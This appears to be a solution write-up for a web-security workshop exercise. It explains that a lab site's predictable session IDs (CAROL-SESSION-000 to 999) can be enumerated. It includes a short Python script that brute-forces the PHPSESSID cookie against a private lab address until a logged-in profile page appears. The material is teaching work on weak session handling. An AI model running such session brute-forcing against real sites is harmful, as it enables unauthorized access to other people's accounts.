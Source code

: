 ## Workshop 2 Solutions
### 3 - Carol
Relevant information:

- Carol uses the v0 version of the site.
- The v0 version of the site creates session IDs manually.
- v0 session IDs are of the form: USERNAME-SESSION-###

It should be immediately obvious that session IDs can be enumerated via brute-force. For Carol, there are only 1000 possible IDs: CAROL-SESSION-000 through CAROL-SESSION-999. I used a python script to GET profile.php with all possible session IDs, and print the resulting HTML if it contains "Welcome" (indicating the login was a success).

```python
for i in range(1000):
    cookie = {"PHPSESSID" : "CAROL-SESSION-{:03d}".format(i)}
    r = requests.get("http://172.16.4.59/profile.php", cookies=cookie)
    if "Welcome" in r.text:
        print(r.text)
```

This is the least practical exercise of the workshop, but it provides an introduction to the concept of a session ID and provides an example of when something can be trivially brute-forced.

